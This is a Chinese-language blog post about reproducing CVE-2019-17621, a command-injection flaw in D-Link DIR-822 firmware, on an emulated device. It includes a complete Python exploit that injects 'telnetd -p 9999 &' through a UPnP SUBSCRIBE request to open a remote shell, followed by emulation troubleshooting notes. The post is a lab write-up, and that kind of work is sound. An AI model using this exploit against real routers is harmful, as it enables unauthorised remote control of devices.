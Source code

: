```yaml
---
title: CVE-2019-17621 dlink-822 命令注入漏洞复现
tags: [firmware analysis]
date: 2022-12-17 11:10:00
excerpt: CVE-2019-17621 dlink-822 命令注入漏洞复现
---
```


#### 前言

第一次成功仿真一个固件并成功访问web并成功复现漏洞的exp ......

期间用 firmware-analysis-toolkit 和 firmware-analysis-plus （包括它的docker）在不同的操作系统（kali2020.4，kali2022.4）上来回实验了各种各样的固件，最终的成功目前看来只是一个偶然（因为遇到了太多我目前无法解释的问题）特此记录一下😪

#### 环境

kali2020.4 （同样的固件，同样版本的fap，但是在kali2022.4上运行这个固件时，会Internal Error 500（但起码能访问到这个ip......😅）

固件下载地址：<http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-822>

就这一个版本1.03B03

![](/img/CVE-2019-17621/1.jpg)

fap使用的是2.3版本 <https://github.com/liyansong2018/firmware-analysis-plus/tree/v2.3>

使用的exp来源 <https://www.jianshu.com/p/409106be87b7>

#### 运行

![](/img/CVE-2019-17621/2.jpg)

#### exp

```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

#### 坑

这是第一次仿真固件，一开始用的是firmware-analysis-toolkit（fat，https://github.com/attify/firmware-analysis-toolkit），首先它安装的时候就一堆问题。包括它的setup.sh里，要安装个lsb-core，但是apt找不到这个包，上网找了半天没找到一个能成功安装的，然后在他的issue里发现有人说这个不是必要的，可以删掉😅，然后setp.sh里还有个qt5base-dev的包，在kali上实际应该是qtbase5-dev😅，我不知道其他系统是啥样，还有一个坑是因为git  clone不稳定，我手动下载的zip包，但实际上这个clone是要recursive的😅，直接运行fat.py他是用pexpect去开启另一个进程，然后新启动的这个进程并不会把输出显示过来，看源码调试半天才发现是少文件，当时还很纳闷😅为啥会少（过于nc）

相对来说firmware-analysis-plus（fap，https://github.com/liyansong2018/firmware-analysis-plus）比较友好（和fat基本一样，只不过细节上做了一些修改），首先，其他项目的文件统一放在了库里（没有那个递归了😅）然后还做了一个docker，但是这个docker没有装jefferson，仿真不了jffs的文件系统，只能继续自己配环境😅。fat.py后面要加一个-q qemu-path的参数，否则network  interface列表会为空（nc如我还跑去人家issue底下问，还好人家没过几分钟就回复了😅）

然后exp部分一开始我用的这个帖子的exp ：http://www.manongzj.com/blog/28-tkbcqqitdf.html ，跑不通，后来换成了前文用的exp，居然好使了。。。我没看出来这俩exp有啥区别，不想管了😅，第一次固件仿真到此结束，漏洞是啥原理暂时不想管了



